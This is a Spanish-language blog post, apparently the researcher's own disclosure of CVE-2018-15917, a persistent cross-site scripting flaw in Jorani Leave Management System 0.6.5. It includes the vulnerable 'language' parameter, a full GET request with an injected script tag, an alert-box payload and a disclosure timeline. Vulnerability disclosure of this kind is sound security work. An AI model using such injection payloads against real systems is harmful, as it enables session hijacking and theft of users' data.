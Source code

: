 +++
date = "2018-09-01"
title = "CVE-2018-15917 Jorani Leave Management System 0.6.5 - Cross-Site Scripting Persistente"
author = "Javier Olmedo"
toc = false
+++

Esta entrada tiene como objetivo hacer pública la vulnerabilidad [Cross-Site Scripting Persistente](https://www.owasp.org/index.php/Cross-site_Scripting_\(XSS\)) descubierta en el software [Jorani Leave Management System 0.6.5](https://jorani.org/download.html), la vulnerabilidad ha sido asociada al [CVE-2018-15917](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2018-15917).

## Jorani CVE-2018-15917

### Jorani Leave Management System 0.6.5 - Cross-Site Scripting Persistente

[![/images/cve-2018-15917-jorani-leave-management-system-0-6-5-cross-site-scripting-persistente/cve-2018-15917-jorani-leave-management-system-0-6-5-cross-site-scripting-persistente_001.jpg](/images/cve-2018-15917-jorani-leave-management-system-0-6-5-cross-site-scripting-persistente/cve-2018-15917-jorani-leave-management-system-0-6-5-cross-site-scripting-persistente_001.jpg)](/images/cve-2018-15917-jorani-leave-management-system-0-6-5-cross-site-scripting-persistente/cve-2018-15917-jorani-leave-management-system-0-6-5-cross-site-scripting-persistente_001.jpg)

Jorani es un sistema de administración de licencias desarrollado en PHP / MySQL bajo una licencia AGPL v3, está diseñado para proporcionar solicitud de flujos de trabajo simples y tiempo extra para organizaciones pequeñas.

- 📅 Vulnerabilidad descubierta por [Javier Olmedo](https://twitter.com/JJavierOlmedo) el **02/08/2018**
- 💣 Publicada el **01/09/2018**
- 🐛 [CVE-2018-15917](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-15917)
- 🔗 Link del software [Jorani Leave Management System](https://jorani.org/download.html)
- 🐞 Versión vulnerable = **0.6.5 y posiblemente anteriores**

## Vector de ataque / Criticidad de la explotación

### CRITICIDAD - 🔴 ALTA 🔴

A través de las vulnerabilidades Cross Site Scripting Reflejadas (XSS), un atacante podría **inyectar código javascript malicioso** en el navegador de la víctima con el objetivo de **robar información sensible, realizar acciones sin el consentimiento del usuario legítimo, secuestrar sesiones de usuario** o, incluso, llegar a **comprometer todo el sistema** si la versión del navegador tiene otras vulnerabilidades críticas asociadas.

## Parámetro vulnerable

El parámetro `language` es vulnerable a ataques **Cross-Site Scripting (XSS) Persistentes** a través de una petición **GET** en la cuál los valores quedan almacenados en la sesión del usuario:

```txt
localhost/session/language?last_page=session%2Flogin&language=en%22%3E%3Cscript%3Ealert(%27PoC%20CVE-2018-15917%27)%3C%2Fscript%3E&login=&CipheredValue=
```

**Petición**

[![/images/cve-2018-15917-jorani-leave-management-system-0-6-5-cross-site-scripting-persistente/cve-2018-15917-jorani-leave-management-system-0-6-5-cross-site-scripting-persistente_002.png](/images/cve-2018-15917-jorani-leave-management-system-0-6-5-cross-site-scripting-persistente/cve-2018-15917-jorani-leave-management-system-0-6-5-cross-site-scripting-persistente_002.png)](/images/cve-2018-15917-jorani-leave-management-system-0-6-5-cross-site-scripting-persistente/cve-2018-15917-jorani-leave-management-system-0-6-5-cross-site-scripting-persistente_002.png)

**Respuesta**

[![/images/cve-2018-15917-jorani-leave-management-system-0-6-5-cross-site-scripting-persistente/cve-2018-15917-jorani-leave-management-system-0-6-5-cross-site-scripting-persistente_003.png](/images/cve-2018-15917-jorani-leave-management-system-0-6-5-cross-site-scripting-persistente/cve-2018-15917-jorani-leave-management-system-0-6-5-cross-site-scripting-persistente_003.png)](/images/cve-2018-15917-jorani-leave-management-system-0-6-5-cross-site-scripting-persistente/cve-2018-15917-jorani-leave-management-system-0-6-5-cross-site-scripting-persistente_003.png)

**Alerta en el navegador**

[![/images/cve-2018-15917-jorani-leave-management-system-0-6-5-cross-site-scripting-persistente/cve-2018-15917-jorani-leave-management-system-0-6-5-cross-site-scripting-persistente_004.png](/images/cve-2018-15917-jorani-leave-management-system-0-6-5-cross-site-scripting-persistente/cve-2018-15917-jorani-leave-management-system-0-6-5-cross-site-scripting-persistente_004.png)](/images/cve-2018-15917-jorani-leave-management-system-0-6-5-cross-site-scripting-persistente/cve-2018-15917-jorani-leave-management-system-0-6-5-cross-site-scripting-persistente_004.png)

Puede explotarse con el siguiente payload:

```txt
💉 en"><script>alert('PoC CVE-2018-15917')</script>
```

## Prueba de concepto (PoC)

[![/images/cve-2018-15917-jorani-leave-management-system-0-6-5-cross-site-scripting-persistente/cve-2018-15917-jorani-leave-management-system-0-6-5-cross-site-scripting-persistente_005.gif](/images/cve-2018-15917-jorani-leave-management-system-0-6-5-cross-site-scripting-persistente/cve-2018-15917-jorani-leave-management-system-0-6-5-cross-site-scripting-persistente_005.gif)](/images/cve-2018-15917-jorani-leave-management-system-0-6-5-cross-site-scripting-persistente/cve-2018-15917-jorani-leave-management-system-0-6-5-cross-site-scripting-persistente_005.gif)

## Timeline

- **02/08/2018** Descubrimiento de la vulnerabilidad
- **02/08/2018** Creo issue en GitHub del proyecto
- **03/08/2018** El desarrollador invalida y cierra el issue 😥
- **27/08/2018** Solicito CVE
- **28/08/2018** Asignación de CVE-2018-15917 por MITRE
- **01/09/2018** Hago pública la vulnerabilidad

## Referencias

- CVE-MITRE - [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-15917](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-15917)

Un saludo a todos!! 👋